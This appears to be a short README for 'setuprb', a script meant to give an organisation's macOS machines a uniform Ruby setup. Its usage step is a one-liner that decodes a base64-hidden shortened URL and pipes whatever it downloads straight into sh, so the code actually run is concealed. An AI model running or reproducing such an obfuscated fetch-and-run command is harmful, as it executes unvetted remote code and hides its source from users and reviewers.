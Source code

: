 # **setuprb** ![picture](img/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.


### Requirements

SSH access to the `Yeojinet` BravoSprintHub Bitbucket repository.


### Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```


### Notes

This is a pre-requisite to properly running the `tuka` gem.
